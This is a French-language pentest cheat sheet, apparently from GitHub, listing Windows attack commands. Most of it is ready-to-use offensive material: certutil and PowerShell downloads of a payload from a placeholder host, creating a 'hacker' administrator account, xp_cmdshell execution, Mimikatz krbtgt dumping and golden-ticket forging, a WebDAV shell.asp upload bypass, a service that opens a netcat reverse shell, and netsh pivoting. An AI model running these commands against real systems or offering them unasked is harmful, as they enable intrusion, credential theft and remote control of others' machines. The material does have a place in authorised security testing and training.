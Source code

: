 <h2>Batch</h2>

`systeminfo` → Obtenir des renseignements sur le système

`tasklist` → Lister les processus

`netstat -ano` → Liste des connexions tcp

`dir sysprep /s /b` → Trouver un fichier dans le repertoire courant et ses sous-dossiers

`wmic qfe list` → Lister les patch installés (KB)

`certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe` → Wget en batch

`certutil.exe -decode bad.txt bad.exe` → Base64 decode en cmd

`net user Domain/hacker hackerhacker /add` → Ajoute un utilisateur

`net localgroup administrators hacker /add` → Ajoute un utilisateur à un groupe

`net use k: \\srv.remote.org\c$` → Connexion au disque distant c sur la partition k

`wmic useraccount where name='user'` → Récupère des informations sur un utilisateur (SID)

`net users [username]` pour obtenir des renseignements sur les utilisateurs

`net account` information sur la politique de mot de passe

## Samba

#### smbclient

Trouver la version

```
nmap -v -sSVC -p445 --script smb-os-discovery host
```

Exemple de share connus: IPC$, 
Connexion en tant qu'utilisateur Guest

```
smbclient -U guest% \\\\host\\share
```

Connexion en tant qu'anonyme

```
smbclient -U "" -N \\\\host\\share
```

Énumération de share

```
smbclient -U "" -N -L \\\\host\\share
nmap -v --script smb-enum-shares -p U:137,T:139 host
```

## MSSQL

#### sqsh

```
sqsh -S 1.2.3.4 -u user
EXEC master..xp_cmdshell 'whoami'
go
```

<h2>Powershell</h2>

`{(New-Object System.Net.WebClient).DownloadFile("http://site.com/file", "C:\\Users\Public\file")}` → Wget en powershell

`get-WmiObject -class Win32_Share`

<h2>Mimikatz</h2>

`privilege::debug`

`lsadump::lsa /inject /name:krbtgt` → Récupérer le NTLM hash de krbtgt

`kerberos::golden /user:[USER] /domain:[DOMAINE] /sid:[SID de USER] /krbtgt:[NTLM hash de krbtgt] /ticket:evil.tck /ptt` → Créé et inject un golden ticket à la session


## WebDav

Cadaver pour se connecter,
Sur Windows 2000/2003, bypass la restriction de l'extension avec shell.asp;.jpg

```
PUT shell.jpg
COPY shell.asp;.jpg
```

## SMTP

Connexion SSL

```
openssl s_client -connect 1.2.3.4:587 -starttls smtp
```

## Privesc

Créer un service (groupe administrateur):

```
sc create cmdsvc binpath= "C:\tmp\nc64.exe 1.2.3.4 9999 -e cmd" type= own type= interact
sc cmdsvc start
```

Churrasco (NT Authorithy \ Network Service), lancer deux fois maybe: 

```
churrasco.exe
```

## Pivoting

Port forwarding natif windows:

```
netsh interface portproxy add v4tov4 listenport=4445 listenaddress=0.0.0.0 connectport=4445 connectaddress=<your.address>
```
